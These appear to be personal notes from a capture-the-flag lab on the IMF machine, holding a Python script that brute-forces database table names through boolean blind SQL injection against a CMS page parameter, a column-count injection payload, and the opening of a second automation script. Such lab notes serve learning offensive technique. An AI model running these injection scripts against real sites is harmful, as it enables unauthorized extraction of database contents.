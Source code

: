 #Global variables
main_url = 'http://10.10.2.131/imfadministrator/cms.php?pagename=home'
characters = string.ascii_lowercase + '-_'

def makeRequest():
    cookies= {
            'PHPSESSID' : 'em7rebru0337e7ml01v5uqqpc0'
            }
    table = ""

    p1 = log.progress("Bruteforce")
    p1.status("Starting bruteforce process")

    time.sleep(2)

    p2 = log.progress("Tables")
    for dbs in range(0,1):
        for position_character in range(1, 30):
            for character in characters:
                sqli= main_url + f"'+and+(select+substring(table_name,{position_character},1)+from+information_schema.tables+where+table_schema='admin'+limit+{dbs},1)='{character}"
                p1.status(sqli)
                r = requests.get(sqli, cookies=cookies)

                if "Welcome to the IMF Administration." in r.text:
                    table += character
                    p2.status(table)
                    break
        table += ","

if __name__ == '__main__':
    makeRequest()

![[Pasted image 20240319182534.png]]

#### Column enumeration
Getting columns number
payload:
*home' and (select count(column_name) from information_schema.columns where table_schema='admin' and table_name='pages')='4* 
![[Pasted image 20240319183641.png]]
Result=3

Script to automatize

#!/usr/bin/python3

from pwn import *
import requests, pdb, signal, time, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Quitting...\n")
    sys.exit(1)

#Ctrl+C, define what to do after pressing SIGINT
signal.signal(signal.SIGINT, def_handler)
